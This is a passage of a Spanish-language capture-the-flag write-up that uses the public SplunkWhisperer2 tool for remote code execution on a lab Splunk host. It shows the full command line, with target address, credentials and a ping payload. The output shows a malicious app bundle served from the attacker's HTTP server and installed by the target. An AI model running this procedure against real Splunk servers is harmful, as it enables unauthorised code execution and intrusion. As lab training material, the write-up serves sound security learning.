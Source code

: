 Bueno investigando como podemos aprovecharnos de **Splunk** podemos usar este repositorio y nos dan mas información <https://github.com/cnotin/SplunkWhisperer2>

```bash
❯ git clone https://github.com/cnotin/SplunkWhisperer2
Clonando en 'SplunkWhisperer2'...
remote: Enumerating objects: 77, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 77 (delta 10), reused 13 (delta 9), pack-reused 54
Recibiendo objetos: 100% (77/77), 25.45 KiB | 186.00 KiB/s, listo.
Resolviendo deltas: 100% (29/29), listo.
```

Y bueno tenemos el script para **RemoteCodeExecution**

```bash
❯ cd PySplunkWhisperer2
❯ ls
 build_exe.bat           PySplunkWhisperer2_local.py           PySplunkWhisperer2_remote.py   requirements.txt
 build_exe_python3.bat   PySplunkWhisperer2_local_python3.py   README.md         
```

Aqui te dejo el link donde la **IA** **ChatGPT** nos explica a detalle el script <https://chat.openai.com/share/cd3990bf-f349-437e-a780-fa316a86c6e3>

Esto es lo que nos pide el **script**

```bash
❯ python3 PySplunkWhisperer2_remote.py
usage: PySplunkWhisperer2_remote.py [-h] [--scheme SCHEME] --host HOST [--port PORT] --lhost LHOST [--lport LPORT]
                                    [--username USERNAME] [--password PASSWORD] [--payload PAYLOAD]
                                    [--payload-file PAYLOAD_FILE]
PySplunkWhisperer2_remote.py: error: the following arguments are required: --host, --lhost
```

Bueno como le podemos pasar el comando que queremos ejecutar lo que vamos a hacer primero es hacer un ping para ver si la recibimos

```bash
❯ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.5 --username shaun --password Guitar123 --payload "ping -c 1 10.10.14.5"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpvqucs7m5.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.5:8181/
10.10.10.209 - - [06/Jun/2023 17:43:31] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```
